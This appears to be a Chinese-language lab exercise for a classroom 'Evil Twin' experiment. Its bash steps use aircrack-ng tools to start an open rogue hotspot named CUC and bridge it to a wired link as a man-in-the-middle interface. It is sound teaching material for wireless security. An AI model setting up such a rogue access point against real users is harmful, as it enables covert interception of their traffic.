 # 实验


## Evil Twin基础实验（不支持AP模式的网卡）

```bash

# 虚拟机建议使用NAT模式联网

# 安装网络桥接配置工具包
apt-get update && apt-get install bridge-utils

# 启用指定的无线网卡，注意看清楚自己本机上识别出的无线网卡标识是否是wlan0
ifconfig wlan0 up

# 设置wlan0工作在监听模式
airmon-ng start wlan0

# 解决部分无线网卡在Kali 2.0系统中设置监听模式失败，杀死可能会导致aircrack-ng套件工作异常的相关进程
airmon-ng check kill

# 设置处于监听模式的网卡的工作channel，以下只是一个示例。可以根据需要，指定工作在其他有效channel: 1 ~ 13
iwconfig wlan0mon channel 1

# 开启一个无认证和无加密机制的无线热点CUC
airbase-ng --essid CUC wlan0mon

# 上述命令执行成功之后，会创建一个虚拟网卡：at0
# 下面的操作步骤，把at0桥接到eth0上

# 创建桥接网卡，命名为mitm
brctl addbr mitm

# 启用前述步骤创建的虚拟网卡
ifconfig at0 up

# 查看桥接网卡配置
brctl show

# 添加有线网卡到桥接网卡
brctl addif mitm eth0
# 添加虚拟无线SoftAp模式网卡到桥接网卡
brctl addif mitm at0

# 配置桥接网络
ifconfig eth0 0.0.0.0 up
ifconfig at0 0.0.0.0 up
ifconfig mitm up

# 非必选步骤，取决于mitm是否分配到了IP地址
dhclient mitm

# 非必选步骤，若动态获取IP地址失败，无法上网
#1设置静态ip地址
ifconfig mitm 10.0.2.15 netmask 255.255.255.0

#2设置静态路由
route add default gw 10.0.2.2 dev mitm

# 验证mitm桥接接口是否已获得了IP地址
ifconfig mitm

```